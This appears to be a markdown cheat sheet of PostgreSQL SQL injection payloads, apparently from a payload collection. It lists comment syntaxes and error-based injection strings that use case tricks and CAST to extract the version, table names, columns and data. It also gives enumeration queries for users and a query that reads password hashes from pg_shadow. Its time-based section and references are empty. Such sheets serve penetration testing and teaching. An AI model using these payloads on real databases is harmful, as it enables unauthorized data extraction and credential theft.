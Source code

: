 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

Version	
``` 
SELECT version()
```
Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
List Users	
```
SELECT usename FROM pg_user
```
List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```

## References:
